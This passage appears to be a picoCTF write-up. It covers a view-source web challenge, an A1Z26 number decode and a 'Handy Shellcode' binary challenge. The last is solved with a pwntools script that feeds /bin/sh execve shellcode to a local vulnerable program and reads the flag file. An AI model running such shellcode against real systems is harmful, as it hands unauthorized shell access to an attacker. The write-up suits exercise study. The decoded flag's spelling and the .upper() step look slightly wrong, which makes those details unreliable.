 Go to webpage, view source for first part
click mycss.css for part 2
and myjs.js for 3

<details><summary>Flag</summary></details>

# Numbers (General)

![numbers](images/numbers.png)

cyberchef 16 9 3 15 20 6 20 8 5 14 21 13 2 5 18 19 13 1 19 15 14
A1Z26 decoder
picotfthenumbersmason
```python
'picotf{thenumbersmason}'.upper()
```

<details><summary>Flag</summary></details>

# Handy Shellcode (Binary)

![title](images/handyshellcode.png)

```python
#!/usr/bin/env python

from pwn import *

shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69'
shellcode+= '\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

p = process('./vuln')
p.sendline(shellcode)
sleep(2)
p.sendline('cat flag.txt')
sleep(1)
print p.recv()
sleep(1)
p.close()
```